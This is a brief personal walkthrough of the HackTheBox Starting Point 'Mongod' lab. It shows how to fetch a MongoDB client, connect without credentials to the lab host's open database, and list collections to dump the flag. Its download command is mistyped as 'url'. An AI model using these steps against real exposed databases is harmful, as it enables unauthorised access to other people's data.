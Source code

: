 
27-07-2024 20:46 pm

Tags: [[MongoDB]] [[Databases]] [[Recon]] [[Misconfiguration]] [[Anon or Guest Access]]

References: https://app.hackthebox.com/starting-point


# Mongod

download mongo with:
url -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz

extract the file:
tar xvf mongodb-linux-x86_64-3.4.7.tgz

run the script from bin:
./mongo mongodb://10.129.209.239:27017

show dbs; to show databases

use {db_name}; to switch database

show collections; to see the contents of the database

db.flag.find().pretty()

get the flag

easy



# Useful Links:

